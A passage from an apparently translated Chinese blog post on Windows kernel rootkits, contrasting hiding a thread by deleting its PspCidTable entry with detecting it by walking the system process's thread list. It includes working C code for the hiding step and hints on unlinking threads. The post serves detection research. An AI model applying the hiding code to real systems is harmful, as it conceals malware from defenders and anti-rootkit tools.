2. 在2006年Uninformed的这篇博客文章中，将`HANDLE_TABLE_ENTRY`结构体的`Object`属性设置为`NULL`（有趣的是，当时这样做是为了规避Blacklight反Rootkit）。

下面我们按照教程中的第一种方法来实现。

### 删除句柄表条目

首先，我们扫描`ExMapHandleToPointer`，然后从这个函数中扫描`ExpLookupHandleTableEntry`，`ExpLookupHandleTableEntry`是用于在`PspCidTable`中查找，并为我们获取线程的`HANDLE_TABLE_ENTRY`的函数。不能直接使用`ExMapHandleToPointer`，因为这会导致死锁。我们还需要扫描`ExDestroyHandle`。这里我就不再一步步详细解释了，你可以在IDA中查找交叉引用（xrefs），提取签名并进行扫描。

我们可以通过一个非常简单的函数从表中删除句柄，从而对操作系统隐藏线程：

```c
NTSTATUS
RemoveEntryFromPspCidTable(
    ULONG id
)
{
    auto cidEntry = g_ExpLookupHandleTableEntry( *g_pPspCidTable, ULongToHandle(id));
    if (cidEntry != NULL)
    {
        g_ExDestroyHandle (*g_pspCidTable, ULongToHandle (id), cidEntry);
        return STATUS_SUCCESS;
    }
    return STATUS_NOT_FOUND;
}

```

当句柄从`PspCidTable`中移除后，任何依赖它的函数，比如`ntoskrnl`中的大多数`Ps*`例程，都无法再找到我们的线程。当然，这并不能让我们完美地躲过警惕的反Rootkit程序的检测……

## 检测方法2：通过查找不一致性来检测篡改行为

检测篡改行为的通用策略是检查是否存在不一致的地方。通常，篡改数据的攻击者只会做他们需要做的部分，可能会忽略其他仍然引用这些数据的地方。也就是说，除了直接使用系统提供的`Ps*` API之外，还有其他方法可以从Windows驱动中列出线程。如果一个线程在某个地方出现，而在另一个地方却没有，那我们就找到了可疑目标。

我在unKover中实现的一种方法是遍历进程的线程链表。在Windows内核中，每个进程都由一个`KPROCESS`/`EPROCESS`对象表示。这个对象包含一个线程链表，其中包含了该进程的所有线程，链表的起始点是`ThreadListHead`。（`E*`结构体的第一个成员是对应的`K*`结构体，这意味着你可以根据需要在它们之间进行类型转换。`K*`本质上是`E*`的一个子集。）

```
0: kd> dt nt!_EPROCESS
+0x000 Pcb : _KPROCESS         /* KPROCESS作为EPROCESS的第一个成员 */
+0x438 ProcessLock : _EX_PUSH_LOCK
+0x440 UniqueProcessId : Ptr64 Void
+0x448 ActiveProcessLinks : _LIST_ENTRY [... ]
+0x5e0 ThreadListHead : _LIST_ENTRY /* 线程链表头 */

```

此外，属于这个链表的线程，无论是从`KTHREAD`还是`ETHREAD`结构体中，都可以引用这个链表：

```
1: kd> dt nt!_KTHREAD
+0x000 Header : _DISPATCHER_HEADER
+0x018 SListFaultAddress : Ptr64 Void
+0x020 QuantumTarget : Uint8B [... ]
+0x2f8 ThreadListEntry : _LIST_ENTRY /* 链表项引用 */

```

由于所有的内核驱动，包括Rootkit，默认情况下都在进程ID为`4`的Windows系统进程下运行。如果我们从反Rootkit驱动中获取当前线程，我们就处于正确的线程链表中。然后，我们可以从当前线程的`ThreadListEntry`开始遍历这个链表，枚举在系统进程下运行的所有驱动线程。如果我们在这里找到一个线程ID，通过`PsLookupThreadByThreadId`在`PspCidTable`中找不到它，或者它指向一个已损坏的条目，那我们就找到了可疑的线程：

```
Found PspReferenceCidTableEntry: 0xfffff8025cc950a0
Found displacement: 0x667507
Found pspCidTable: 0xfffff8025d2fc5c8
ObSetHandleAttributes at 0xfffff8025cc5e770
Found ExMapHandleToPointer: 0xfffff8025cc504d0
[*] Found ExpLookupHandleTableEntry: 0xfffff8025cc2e6a0
Current PID: 0x4, Current TID: 0x1514
Getting info on thread id: 0x1514
[*] PsLookupThreadByThreadId status: 0x0
[unkover] :: Starting to look for hidden threads
[unkover] :: Starting to look for hidden threads
[*] Removing current thread from PspCidTable...
[*] Getting info on thread id: 0x1514
[*] PsLookupThreadByThreadId status: 0xc000000b
[unkover] :: Starting to look for hidden threads
[unkover]:: Found hidden thread: PID: 0x1514

```

这段代码和删除句柄的代码一样直观。不过，目前`KTHREAD`结构体中`ThreadListEntry`的偏移量是硬编码的。至少在我作为虚拟机运行的两个Windows版本中，这个偏移量是稳定的。

```c
#define THREAD_LIST_ENTRY_OFFSET 0x2f8

typedef struct _myKTHREAD
{
    char padding[0x2F8];                // 0x0000
    struct _LIST_ENTRY ThreadListEntry; // 0x02F8
    // [ ... ]
} myKTHREAD, *myPKTHREAD;

NTSTATUS
UkWalkSystemProcessThreads( )
{
    // 获取当前线程（系统进程/PID 4中的任意一个线程即可）
    auto currentThread = KeGetCurrentThread( );
    auto threadListEntry = (PLIST_ENTRY) ((ULONG_PTR)currentThread + THREAD_LIST_ENTRY_OFFSET);
    auto listEntry = threadListEntry;

    // 遍历所有链表项
    while ((listEntry = listEntry->Flink) != threadListEntry)
    {
        auto entry = CONTAINING_RECORD (listEntry, myKTHREAD, ThreadListEntry);
        auto threadId = (ULONG)PsGetThreadId ((PETHREAD)entry);

        if (threadId != 0)
        {
            PETHREAD pThread = NULL;
            NTSTATUS status = PsLookupThreadByThreadId(ULongToHandle(threadId), &pThread);

            // 如果PsLookupThreadByThreadID失败，我们就找到了可疑目标
            if (!NT_SUCCESS(status))
            {
                LOG_MSG ("Found hidden thread: PID: 0x%llx\\n", threadId);
            }
        }
    }
    return STATUS_SUCCESS;
}

```

我认为WinDbg的`!thread`命令也是这样工作的 —— 如果它在`PspCidTable`中找不到线程，就会遍历链表来查找（注意“free handle”）。不过这只是我的猜测。

```
0: kd> !thread -t 184
0184: free handle, Entry address ffff800460eb4610, Next Entry ffff800464e17cb0
Looking for thread Cid =184 ...
0184: free handle, Entry address ffff800460eb4610, Next Entry ffff800464e17cb0
THREAD ffffb20f52363040 Cid 0004.0184 Teb:0000000000000000 Win32Thread:00000000000000 ffffffffffffffff NotificationEvent
Not impersonating
DeviceMap
Owning Process
Attached Process
Wait Start TickCount Context Switch Count UserTime KernelTime Win32 Start Address nt!ExpworkerThread
ffff800460e39360
ffffb20f4fc7f080 N/A 32407 19158 00:00:00.000 00:00:00.312
Image: System
Image: N/A
Ticks:193(0:00:00:03.015) IdealProcessor: 0
(0xfffff80082422420)

```

虽然我们还可以继续进行这种猫捉老鼠的游戏，比如在其他地方删除我们的线程，或者删除进程，甚至伪造线程，但这是一场无休止的来回博弈，我就不再深入探讨了。如果你了解Rootkit中用于隐藏进程的技巧（即将进程从进程链表中解除链接），那么在这里你也可以对线程链表做类似的操作。想要深入了解的话，可以查看ZeroMemoryEx的Chaos - Rootkit的README文件。